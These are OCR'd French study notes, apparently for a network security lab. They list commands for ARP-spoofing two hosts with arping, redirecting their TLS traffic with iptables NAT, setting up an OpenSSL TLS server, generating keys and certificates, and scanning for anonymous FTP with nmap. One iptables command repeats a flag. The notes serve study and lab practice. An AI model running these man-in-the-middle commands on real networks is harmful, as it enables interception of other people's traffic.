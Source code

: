 1) lancement d'un serveur tls avec un certificat
openssl s_server -cert server.crt -key server.key -accept 443

2) mitm part

arping -i eth0 -U -S 192.166.N.1 192.166.N.2
arping -i eth0 -U -S 192.166.N.2 192.166.N.1

3) parametrage du nat

sudo iptables -t nat -F (flush la table nat)
/*redirige 1 vers 2*/
iptables -t nat -A PREROUTING -p tcp -d -d 192.166.N.1 -s 192.166.N.2 --dport 443 -j REDIRECT

echo "base64word" | base64 --decode

mohanpedala pour un bon tuto

GENERATION DE CLE:

openssl genrsa -out pkey.pem 2048

(-pubout pour extraire)
openssl rsa -in pkey.pem -pubout -out publickey.crt

GENERATION DE CSR:
openssl req -key pkey.pem -new -out domain.csr

GENERATION de CERTIF:
openssl x509 -signkey pkey.pem -in domain.csr -req -days 365 -out domain.crt

SERVEUR TLS PYTHON:
page d'oborichkin (tls server)

FTP ANONYME:
nmap --script ftp-anon (le serveur n'a pas de mdp! pas besoin de copier son cert)
https://nmap.org/nsedoc/scripts/ftp-anon.html
